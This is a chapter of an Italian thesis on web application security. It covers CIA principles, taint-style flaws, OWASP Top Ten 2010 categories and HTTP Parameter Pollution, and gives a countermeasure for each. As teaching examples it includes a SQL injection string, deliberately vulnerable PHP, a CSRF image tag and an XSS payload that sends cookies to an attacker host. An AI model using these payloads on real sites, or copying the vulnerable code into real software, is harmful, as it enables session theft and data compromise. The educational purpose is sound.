
\chapter{Sicurezza di applicazioni web}

\begin{epigraphs}
\qitem{"If you think technology can solve your security problems, then you don't understand the problems and you don't understand the technology."}{---\textsc{ Bruce Schneier, 'Applied Cryptography' author}}
\end{epigraphs}

La diffusione globale di internet è un fenomeno in costante crescita, determinato dalle sempre più agevoli condizioni di accesso e coadiuvato dall'interesse per i servizi che la rete offre. \\
Le applicazioni web sono parte fondamentale di questo processo, la loro evoluzione nel corso degli anni è stata un fattore determinante per la crescita della rete. Servizi sempre più complessi hanno favorito l'interazione con gli utenti e la crescita di nuove opportunità di business. Ciò ha catturato l'interesse di individui con cattive intenzioni, per tale motivo è nata l'esigenza di meccanismi che potessero assicurare la sicurezza dei dati.

Un'applicazione web consiste in un software, posizionato su un server, al quale si accede tramite un'interfaccia web. L'accesso si basa sul protocollo HTTP ed è effettuato da vari clients. Ad ogni interazione tra il server ed il client viene stabilita una comunicazione, che consiste in una richiesta HTTP (solitamente GET e POST) con una serie di parametri che stabiliscono i valori della richiesta.\\
Il server riconosce i valori che vengono scambiati e di conseguenza costruisce delle risposte coerenti con le richieste, a seconda delle istruzioni definite nell'applicazione, a loro volta create tramite il linguaggio server-side utilizzato. Il codice sorgente dell'applicazione può fare uso dei parametri forniti per effettuare molteplici operazioni, da query sul database a lettura di file, fino a chiamate sul sistema operativo. Tipicamente il linguaggio server-side produce una risposta in formato HTML, che viene poi spedita al client e mostrata nel browser.\\
I parametri che vengono scambiati tra client e server però non sono sempre prevedibili, gli utenti possono inserire parametri che portano a comportamenti inattesi nell'applicazione. Tali comportamenti possono essere innocui oppure possono essere dannosi per l'applicazione stessa o per gli utenti che la utilizzano. Possono infatti svelare dati sensibili, compromettere l'applicazione o compromettere le altre applicazioni che lavorano sullo stesso server. 

Creare sistemi sicuri non è semplice e comporta la soluzione di numerosi e complessi problemi: dallo sviluppo di un'architettura sicura alla creazione di robusti sistemi crittografici fino alla definizione di policy di sicurezza. Nonostante l'esistenza di queste problematiche, grossa parte delle problematiche di sicurezza di un'applicazione sono dovute ad errata implementazione oppure alla negligenza dello sviluppatore.\\
Nel corso degli anni il problema della sicurezza dei dati ha assunto dimensioni rilevanti tanto che sono state proposte soluzioni per integrare la sicurezza nel processo di sviluppo software.

\section{Fondamenti di sicurezza}
La sicurezza nel software è basata sui principi di \emph{confidentiality}, \emph{integrity} ed \emph{availability}, solitamente definita con l'acronimo \emph{CIA}.\\
\begin{itemize}
\item Confidentiality: indica il divieto di diffusione di informazioni a soggetti o sistemi non autorizzati. E' condizione necessaria (ma non sufficiente) per garantire la privacy.
\item Integrity: indica la certezza che un dato non venga modificato in modo imprevisto da chi non ne possiede l'autorizzazione.
\item Availability: indica la disponibilità del dato per chi ne ha l'autorizzazione quando richiesto.
\end{itemize}
Negli ultimi anni tuttavia, con la motivazione di non riuscire a caratterizzare completamente il termine, è stata messa in discussione la definizione di sicurezza; sono stati proposti ulteriori termini che tengono conto anche di altri parametri. Nel 2002 Donn Parker\cite{parker} propose un'alternativa composta da sei termini, aggiungendo ai tre classici principi le nozioni di possession, authenticity e utility (la sestupla verrà in seguito nominata \emph{Parkerian Hexad}).
Possession indica la proprietà dei diritti di controllo dei dati, authenticity indica la capacità di accertare la validità del dato, utility indica la capacità di un dato di essere utile per un determinato scopo.

\section{Vulnerabilità nelle applicazioni web}
La presenza di vulnerabilità nel software è dovuta a vari motivi: errate decisioni architetturali ed implementative, mancata conoscenza da parte dello sviluppatore delle problematiche di security, negligenza. Queste ultime due motivazioni sono ancora più veritiere nel mondo degli applicativi web: linguaggi come PHP non hanno una curva di apprendimento ripida e consentono anche ai non professionisti di realizzare applicazioni web.\\
Molti sviluppatori non conoscono o non si rendono conto delle problematiche di security a cui vanno incontro se vengono inseriti dati malevoli nelle loro applicazioni. E' un problema principalmente di educazione, i vari libri di programmazione difficilmente si soffermano sull'importanza di scrivere codice sicuro. Allo stesso modo il lavoro di sviluppatore non sempre richiede certificazioni in ambito sicurezza per essere praticato.\\
Un'altra motivazione che esclude la sicurezza dal processo di sviluppo software è costituita da restrizioni economiche, le quali possono incidere sulle tempistiche e quindi diminuire il tempo da dedicare al testing ed al controllo del codice. Solitamente infatti raggiungere una release stabile del progetto è la massima priorità, mentre la sicurezza non lo è.

Il controllo qualità nei progetti software è focalizzato solitamente sull'adesione ai requisiti imposti in fase di progettazione, non sulle implicazioni che può avere una errata implementazione delle specifiche. Solitamente però la presenza di vulnerabilità non indica una violazione delle specifiche imposte dai requisiti.\\
Tecnicamente, al fine di rendere un software sicuro, tutte le parti di quel software devono essere sicure, non solo le parti sensibili dal punto di vista della sicurezza come l'autenticazione o la gestione dei pagamenti. E' proprio in questo codice che statisticamente si concentrano le vulnerabilità, quelle in cui la sicurezza non è un requisito. \\
Un esempio di tale eventualità si ha con la procedura di acquisto prodotti su un e-commerce: non è necessario che solo la parte di acquisto tramite carta di credito sia sicura, un attaccante può sfruttare una vulnerabilità in qualunque punto dell'applicazione per accedere ai dati delle carte di credito degli utenti.

Le vulnerabilità più comuni all'interno di un'applicazione web sono chiamate \emph{taint-style vulnerabilities}. Il nome deriva dal fatto che un dato (\emph{tainted data}) entra nel flusso del programma attraverso una sorgente non fidata e viene passato ad una porzione del programma vulnerabile (detta \emph{sensitive sink}) senza essere prima sanitizzato da una opportuna routine (\emph{sanitization routine}). La mancata sanitizzazione del dato comporta la presenza di una vulnerabilità di tipo taint-style.\\
Il linguaggio di scripting Perl possiede un \emph{taint-mode}, ovvero una modalità che considera ogni input dell'utente come tainted. Con taint-mode attivo, solo input da provenienti da sinks che vengono validati attraverso espressioni regolari vengono considerati validi.\\
Questa tecnica ha un evidente grosso punto debole: le espressioni regolari sono molto complesse ed è facile per uno sviluppatore commettere un errore che possa invalidare la sanitization routine (Jovanovic et. al.\cite{pixy}). Per tale motivo è sconsigliato l'uso di sanitization routine basate su espressioni regolari definite in modo personalizzato ma si consiglia di usare i costrutti forniti dal linguaggio. L'assunzione che indica come sicuro ogni valore che viene passato attraverso un'espressione regolare è oltremodo problematica, fornisce un falso senso di sicurezza, per tale motivo non è sensato riprodurre il taint-mode di Perl su altri linguaggi come misura protettiva.

Le vulnerabilità di tipo taint-style, tra cui injections, cross site scripting e cross site request forgery, sono le più comuni ma non sono le uniche ad affliggere le applicazioni web.
OWASP (Open Web Application Security Project)\footnote{http://www.owasp.org}, un gruppo composto da volontari che produce tools, standard e documentazione open-source gratuita inerente la web security, ha categorizzato le varie vulnerabilità nella sua Top Ten\footnote{https://www.owasp.org/index.php/Category:OWASP\_Top\_Ten\_Project}, un progetto rilasciato con cadenza triennale che raccoglie 10 vulnerabilità tipiche di applicazioni web. 
Gli obiettivi di OWASP sono i seguenti:
\begin{itemize}
\item Diffondere la cultura dello sviluppo di applicativi web sicuri.
\item Contribuire alla sensibilizzazione sia dei professionisti che delle aziende verso le problematiche di web security, attraverso la circolazione di idee, articoli, best-practices e tools.
\item Promuovere l’uso di metodologie e tecnologie che consentano di migliorare il livello di sicurezza delle applicazioni web.
\end{itemize}
OWASP Top Ten è una classificazione accettata a livello globale basata ed è basata sul rischio, che fornisce anche le contromisure per mitigare l'eventuale problematica. Di seguito si riportano le vulnerabilità citate dalla OWASP Top Ten 2010, utili in seguito nella trattazione, corredate da un esempio di come è possibile riscontrarle nell'applicazione web (sebbene l'esempio sia didattico e meno complicato rispetto alla vulnerabilità riscontrata negli applicativi professionali).

\subsection{Injection}
Questa categoria di vulnerabilità raccoglie tutte le casistiche in cui dati non fidati vengono inviati ad un interprete come parte di un comando o di una query. Tali dati possono essere eseguiti dall'interprete e possono condurre all'esecuzione di comandi non voluti oppure all'accesso a dati non autorizzati. Fanno parte di questa categoria le vulnerabilità di tipo SQL injection, LDAP injection e OS injection.\\
E' molto comune trovare questa tipologia di vulnerabilità in codice legacy, ovvero non più supportato, ed è una vulnerabilità che ha un severo impatto sull'applicazione poichè può portare alla corruzione del sistema, ad un \emph{denial of service} oppure alla perdita di dati.\\
Di seguito si riporta un esempio di tale vulnerabilità:\\

\begin{lstlisting}[language=SQL]
$query = "SELECT * FROM accounts WHERE custID ='" . $_GET["id"] ."'";
mysql_query($query);
\end{lstlisting}

L'applicazione esegue la query sul database MySql sottostante, utilizzando come parametro un valore ottenuto direttamente dall'URL. Tale query espone però l'applicazione ad un possibile attacco di tipo SQL Injection. Infatti inserendo nell'URL una stringa come la seguente\\

\begin{lstlisting}[language=SQL]
http://example.com/app/accountView?id=' or '1'='1
\end{lstlisting}

la query viene interpretata in modo diverso, ritornando tutti i record di quella tabella dal database. Nel caso peggiore un attaccante può utilizzare questa vulnerabilità per eseguire query che alterano i dati nel database, riuscendo ad ottenere il completo controllo dell'applicazione. \\
Per evitare di incorrere in questa tipologia di vulnerabilità è opportuno utilizzare un API per il dialogo con il database, che si occupa di filtrare i parametri in ingresso alle query. Una soluzione alternativa può essere invece quella di effettuare l'escape dei caratteri speciali usando specifiche sintassi per ogni interprete.

\subsection{Cross site scripting}
Vulnerabilità di tipo Cross site scripting (denominate spesso con l'acronimo XSS, da non confondere con CSS di cascading style sheets) si verificano quando un'applicazione riceve dati di input non fidati e li invia ad un browser senza un'appropriata procedura di controllo e validazione. \\
XSS consente ad un attaccante di eseguire scripts sul browser della vittima, i quali possono effettuare l'hijacking della sessione utente, possono recuperare cookie di sessione, possono redirezionare l'utente su siti web malevoli o possono effettuare defacing del sito web. \\
Un esempio di cross site scripting può essere il seguente:\\

\begin{lstlisting}[language=PHP]
$page += "<input name='creditcard' type="text" value='" + $_GET["CC"] + "'>";
\end{lstlisting}

Supponendo di avere una pagina che mostra a video il numero di carta di credito di un individuo, ottenuto attraverso i parametri in input dall'URL, l'attaccante potrà semplicemente costruire un URL con un valore del parametro \emph{CC} modificato e fare in modo che l'utente visiti tale URL per effettuare l'hijacking della sessione utente, come nell'esempio seguente:\\

\begin{lstlisting}[language=PHP]
'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
\end{lstlisting}

Esistono tre diverse tipologie di cross site scripting:
\begin{itemize}
\item Stored: Il codice viene iniettato nel server in modo permanente, ad esempio in un database. La vittima riceve quindi lo script malevolo ad ogni visita della pagina che mostra a video quel valore.
\item Reflected: Il codice malevolo non viene iniettato nel server ma viene inviato alla vittima attraverso mezzi alternativi, come un email contenente un link. Quando l'utente clicca su tale link il codice viene eseguito.
\item DOM based: Un payload malevolo viene eseguito come risultato della modifica del DOM\footnote{Document Object Model} del browser dell'utente. La risposta HTTP in questo caso non cambia ma il codice contenuto nella pagina viene eseguito in modo diverso a causa delle modifiche al DOM.\\
E' diverso da stored e reflected XSS poichè in questo caso il payload malevolo non è nella pagina di risposta del server ad una richiesta.
\end{itemize}

Vulnerabilità di tipo XSS hanno impatto significativo sull'utente, meno significativo sull'applicazione (ad eccezione del caso stored, in cui l'applicazione è direttamente coinvolta).\\
Prevenire vulnerabilità di tipo XSS comporta la separazione tra dati non fidati ed il contenuto che viene inviato al browser. E' quindi necessario effettuare l'escape dei contenuti in input basati su codice HTML o Javascript, a seconda del contesto in cui tali dati verranno poi utilizzati.

\subsection{Broken authentication and session management}
Funzionalità come l'autenticazione e la gestione delle sessioni utente sono spesso implementate non correttamente, consentendo all'attaccante di ottenere passwords, chiavi, tokens di sessione o di impersonificare altri utenti.\\
Il classico esempio di questa vulnerabilità si verifica quando il timeout della sessione utente non è settato correttamente. Supponendo che l'utente sia loggato nell'applicazione attraverso un browser su un computer e al termine dell'uso si dimentichi di cliccare su logout, un attaccante potrebbe collegarsi al sito attraverso lo stesso computer e ritrovarsi già loggato nell'applicazione, con il profilo del vecchio utente. \\
Questa tipologia di vulnerabilità ha radici architetturali oltre che implementative, per tale motivo le contromisure consistono nel seguire raccomandazioni e specifiche per la gestione delle sessioni e dell'autenticazione utente.

\subsection{Insecure direct object references}
Una direct object reference si verifica quando uno sviluppatore espone un collegamento ad un oggetto interno, come un file, una directory, una chiave per accedere al database, ecc. Senza le opportune protezioni gli attaccanti possono manipolare tali collegamenti per accedere a dati in modo non autorizzato.\\
Un esempio di tale vulnerabilità può verificarsi nelle applicazioni di home banking, dove il numero di conto corrisponde alla chiave primaria nel database. Anche se gli sviluppatori hanno utilizzato query SQL che evitano injections, se non esistono controlli aggiuntivi per verificare che l'utente sia il proprietario dell'account e sia autorizzato a visualizzare determinati contenuti, un attaccante potrebbe sfruttare il numero di conto per visualizzare dati provenienti da conti altrui.\\
Le contromisure consistono nella verifica continua che l'accesso ai dati esposti avvenga effettivamente dagli utenti autorizzati e nell'uso di referenze ad oggetti interni indirette, quali ad esempio indici non collegati a dati sensibili. 

\subsection{Cross site request forgery}
Un attacco di tipo cross site request forgery (CSRF) forza una vittima loggata nell'applicazione web ad eseguire richieste HTTP costruite dall'attaccante per uno scopo ben preciso (tramite tags di tipo immagine, XSS o altre tecniche), generalmente ad insaputa della vittima. L'applicazione a questo punto reagisce interpretando la richiesta come legittima, e la richiesta può accedere ad ogni dato a cui la vittima può accedere.\\
Si riporta un esempio di tale problematica:\\

\begin{lstlisting}[language=PHP]
http://example.com/app/transferFunds?amount=1500&destinationAccount=4673243243
\end{lstlisting}

L'applicazione di home banking esegue un trasferimento fondi da un account ad un altro mediante l'uso dei parametri riportati. In questo caso non vi è nulla di segreto nella richiesta. Se l'attaccante fosse in grado di lanciare sul computer della vittima loggata al sito una richiesta di questo tipo, con il proprio numero di conto nel campo destinationAccount, potrebbe trasferire la cifra riportata a se stesso. Per fare ciò, potrebbe forgiare un tag di tipo immagine apposito e fare in modo che la vittima lo visualizzi da loggata.\\
L'esempio sottostante mostra un tag immagine adatto allo scopo:\\

\begin{lstlisting}[language=PHP]
<img src="http://example.com/app/transferFunds?amount=1500&destinationAccount=attackersAcct#" width="0" height="0" />
\end{lstlisting}

Prevenire CSRF comporta la creazione di un token non prevedibile nel corpo o nell'URL di ogni richiesta HTTP. Tale token dovrebbe essere univoco per sessione utente, ma è ancora meglio se è univoco per ogni richiesta. Con la presenza di tale valore non è più possibile per l'attaccante la creazione di una richiesta valida da fare eseguire di nascosto alla vittima.

\subsection{Altre vulnerabilità}
Le altre vulnerabilità citate in OWASP Top Ten ma non riportate nella sezioni precedenti sono le seguenti:

\begin{itemize}
\item \emph{Security misconfiguration}: Le applicazioni web si basano su uno stack, ovvero un insieme di programmi che lavorano a diversi livelli. Molti di essi devono essere configurati correttamente, poiché non tutti vengono forniti di default con un setup sicuro. Inoltre devono essere mantenuti ed aggiornati. Questa tipologia di vulnerabilità include tutti i casi in cui tale software non viene configurato o mantenuto correttamente.
\item \emph{Insecure cryptographic storage}: Molte applicazioni web non proteggono attraverso l'uso di cifratura i dati sensibili, come numeri di carte di credito o credenziali di autenticazione. Gli attaccanti possono quindi rubare o modificare tali dati per eseguire furti di identità, frodi ed altri crimini.
\item \emph{Failure to restrict URL access}: E' comune per un'applicazione web controllare i permessi di accesso all'URL prima di visualizzare contenuti protetti. Tuttavia le applicazioni necessitano che questi controlli vengano eseguiti ogni volta che queste pagine vengono visualizzate o gli attaccanti saranno in grado di costruire URL appositi per accedere a tali risorse senza i permessi.
\item \emph{Insufficient transport layer protection}: Le applicazioni spesso falliscono nel proteggere la confidenzialità e l'integrità del traffico di rete. Questo poiché talvolta utilizzano algoritmi non corretti, certificati non validi o scaduti, non implementano SSL oppure falliscono nell'implementare le best practice per questa problematica.
\item \emph{Unvalidated redirects and forwards}: Può capitare che un'applicazione redirezioni l'utente verso altre pagine o siti web, usando dati non sicuri per determinare le pagine di destinazione. Senza l'appropriata validazione un attaccante può redirezionare la vittima verso phishing verso siti contenenti malware.
\end{itemize}

\subsection{Http Parameter Pollution}
Http Parameter Pollution (HPP) è una vulnerabilità presentata per la prima volta nel 2009 da Stefano di Paola e Luca Carrettoni\cite{dipaola} ad OWASP AppSec Europe 2009. Sebbene troppo recente per essere inclusa nella OWASP Top Ten, questa vulnerabilità è la motivazione che ha portato alla nascita di Vulture, il tool che verrà presentato successivamente in questa tesi.\\
HPP, descritta in modo esaustivo da Balduzzi\cite{hppbalduzzi}, consiste nell'inserimento nell'input di un'applicazione web una particolare query string a parametri encodati, la quale, se l'applicazione non esegue una sanitizzazione dei valori in input, può consentire ad un utente malevolo di comprometterne la logica.

La RFC 3986\cite{rfc3986} specifica che la query string è la parte dell'URI compresa tra il carattere "?" e la fine dell'URI stesso. Normalmente la query string è composta da una serie di coppie chiave=valore che identificano i valori in input, separate da un carattere "\&" oppure ";". Al fine di evitare incomprensioni con i separatori, ogni carattere speciale viene encodato in forma esadecimale.	\\
A seconda della tecnologia in cui l'applicazione è stata sviluppata, la query string viene però interpretata in modo differente: se esistono coppie chiave=valore con la stessa chiave, l'applicazione può prendere in input il primo dei due valori, l'ultimo, oppure una combinazione di entrambi.\\
Nella tabella \ref{hpp} si mostra in dettaglio il funzionamento dell'applicazione a seconda della tecnologia usata.

\begin{table}[!h]
\center
\begin{tabular}{|c|c|c|}
\hline
Tecnologia e server & Metodo & Precedenza \\
\hline
ASP/IIS & Request.QueryString("par") & Tutti (separati da virgole)\\
PHP/Apache & \$\_GET["par"] & Ultimo valore \\
JSP/Tomcat & Request.getParameter("par") & Primo valore \\
Perl(CGI)/Apache & Param("par") & Primo valore \\
Python/Apache & getValue("par") & Tutti (in una lista)\\
\hline
\end{tabular}
\caption{Precedenza in caso di parametri con lo stesso nome}
\label{hpp}
\end{table}


La presenza di più valori per la stessa chiave della query string può portare a comportamenti indesiderati dell'applicazione, è quindi fonte di attacchi da parte di utenti malintenzionati.\\
Uno scenario tipico consiste nel far si che la vittima dell'attacco venga redirezionata verso un URL che sfrutta una vulnerabilità di tipo HPP. Supponendo che l'applicazione in questione sia un sistema scritto in JSP per individuare il giorno migliore in cui effettuare un meeting, che riceve in input un singolo parametro chiamato \emph{meeting\_id}, al fine di identificare univocamente il meeting stesso, l'attaccante potrebbe effettuare HPP sulla query string con lo scopo di modificare i valori dei link che segnalano il giorno di preferenza dell'utente.
Nel normale funzionamento dell'applicazione i link generati sono i seguenti:\\

\begin{lstlisting}[language=HTML]
http://example.com/choice.jsp?meeting_id=1234

Link 1: <a href="http://example.com/choice.jsp?meeting_id=1234&day=20111201">1 dicembre 2011</a>
Link 1: <a href="http://example.com/choice.jsp?meeting_id=1234&day=20111202">2 dicembre 2011</a>
\end{lstlisting}

L'attaccante, aggiungendo alla query string il valore encodato \emph{day=20111202}, rende la scelta dell'utente indifferente grazie all'attacco di tipo HPP:\\

\begin{lstlisting}[language=HTML]
http://example.com/choice.jsp?meeting_id=1234%26day%3D20111202

Link 1: <a href="http://example.com/choice.jsp?meeting_id=1234\%26day\%3D20111202&day=20111201">1 dicembre 2011</a>
Link 1: <a href="http://example.com/choice.jsp?meeting_id=1234\%26day\%3D20111202&day=20111202">2 dicembre 2011</a>
\end{lstlisting}

Nel secondo caso, visto che il funzionamento di JSP con i doppi parametri in query string consiste nel scegliere sempre il primo valore tra quelli con la stessa chiave, qualunque link l'utente clicchi la sua scelta sarà sempre salvata come 1 dicembre 2011.\\
Esistono alcune varianti di HPP che si rifanno però sempre all'injection di valori multipli nella query string ed alle precedenze nell'uso di tali valori da parte dell'applicazione. E' quindi compito dello sviluppatore controllare la reazione dell'applicazione all'invio di parametri multipli.

\section{Security development life cycle}
Tutte le realtà aziendali che si occupano di software implementano un modello che definisce le fasi entro cui lo sviluppo si verifica. Tali fasi sono definite nel software development life cycle (SDLC).\\
Esistono diversi modelli di software development life cycle:
\begin{itemize}
\item A cascata
\item A spirale
\item Iterativo ed incrementale
\item Agile
\item Code and fix
\end{itemize}
Tutti questi modelli però non contemplano la fase di analisi della sicurezza dell'applicazione, bensì relegano tale fase al termine del processo di sviluppo. Ciò è inefficiente poiché influisce sui costi (una modifica a prodotto completato è sicuramente più costosa di una modifica eseguita durante lo sviluppo) e comporta una perdita di controllo (modificare il prodotto in uno stage così avanzato del processo comporta dover eseguire nuovamente tutti i test).
L'immagine \ref{pep} mostra le problematiche del modello patch-and-penetrate.

\begin{figure}[!h]
\centering

\includegraphics[width=15cm]{patchpenetrate.jpg}
\caption{Modello patch-and-penetrate}\label{pep}
\end{figure}


Per tali motivi è opportuno che l'analisi di sicurezza venga implementata nello sviluppo, introducendo un diverso software development life cycle.

\begin{figure}[!h]
\centering

\includegraphics[width=15cm]{sdlc.jpg}
\caption{Software development life cycle}\label{sdlc}
\end{figure}

L'immagine \ref{sdlc} mostra come la sicurezza non sia una fase all'interno del processo di sviluppo, bensì un processo, da attuare costantemente.\\
E' fondamentale identificare il prima possibile un problema di sicurezza, poiché ciò comporta costi minori di fixing e riduce in modo drastico la finestra di esposizione, presente invece nel modello patch-and-penetrate, dominante fino a pochi anni fa. \\
Introdurre l'analisi di sicurezza nel SDLC non è però semplice, occorre una maggiore conoscenza delle problematiche e qualche sistema in grado di automatizzare la ricerca di errori comuni, che abbia come requisito la rapidità di scansione e che possa fornire feedbacks immediati agli sviluppatori.\\
Per questo compito, oltre alla sempre necessaria formazione degli sviluppatori, l'analisi statica può rivelarsi un aiuto efficace.